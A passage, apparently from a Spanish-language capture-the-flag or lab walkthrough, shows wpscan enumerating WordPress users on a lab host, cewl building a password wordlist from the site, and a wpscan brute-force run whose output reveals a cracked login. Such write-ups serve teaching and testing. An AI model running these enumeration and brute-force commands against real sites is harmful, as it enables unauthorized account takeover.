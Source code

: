 ```bash
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.11.12.35/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] gadd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] gill
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] collins
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] satanic
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

Le herramienta nos dice que la versión de Wordepress está sin actualizar, bajo 44 vulnerabilidades y nos proveé 5 usuarios, los cuales usaremos para realizar fuerza bruta.

En esta ocasión, vamos a utilizar la herramienta `cewl`, la cual nos permite crear un diccionario con el contenido de la web, porque a veces las password de los usuarios se componen de estas palabras. También podemos usar el diccionario `rockyou`.

El mínimo de longitud de una clave en wordpress es de 6 caracteres, es decir, partimos de como mínimo 6 caracteres para crear el diccionario de palabras.

```bash
❯ cewl -m 6 -w dic_cewl.txt http://10.11.12.35

❯ wc dic_cewl.txt
 936  936 8334 dic_cewl.txt
```

Lanzamos wpscan para realizar fuerza bruta sobre los usuarios encontrados, utilizando nuestro diccionario y 20 hilos `(-t 20)`.

```bash
❯ wpscan --url http://10.11.12.35 -U users.txt -P dic_cewl.txt -t 20

[+] Performing password attack on Wp Login against 5 user/s
[SUCCESS] - gill / interchangeable
Trying abuzerkomurcu / Wristshot Time: 00:00:38 <========================      > (4512 / 5448) 82.81%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: gill, Password: interchangeable
```
